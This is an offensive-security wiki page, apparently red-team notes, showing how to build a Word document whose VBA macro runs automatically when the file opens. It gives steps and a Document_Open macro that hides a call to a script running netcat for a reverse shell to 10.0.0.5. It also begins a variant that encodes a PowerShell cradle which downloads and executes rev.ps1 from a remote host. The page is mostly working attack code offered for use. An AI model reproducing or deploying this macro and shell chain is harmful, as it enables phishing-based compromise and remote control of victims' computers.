 # MS Office - VBA (Macros)

## Theory

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

{% hint style="info" %}
VBAs/macros by themselves do not inherently bypass any detection.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Basic Usage" %}
1 - Create new word document (CTRL+N)\
2 - Hit ALT+F11 to go into Macro editor\
3 - Double click into the "This document" and CTRL+C/V the below:

```vba
'Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode\
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.

{% hint style="danger" %}
Using the newer **.docx**  extension, we can't embed or save the macro in the document. The macro will not be persistent.
{% endhint %}
{% endtab %}

{% tab title="ActiveX Macro" %}
We may leverage ActiveX Objects which provide access to underlying operating system commands using the following VBA template. This can be achieved with WScript through the [Windows Script Host Shell](../../../weapon/code-execution/wsh.md) object.

Fisrt, create a base64 powershell payload

```bash
$ echo -n 'iex(iwr http://192.168.45.225/rev.ps1 -UseBasicParsing)'|iconv -t 'utf-16le'|base64 -w0
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAA...
```
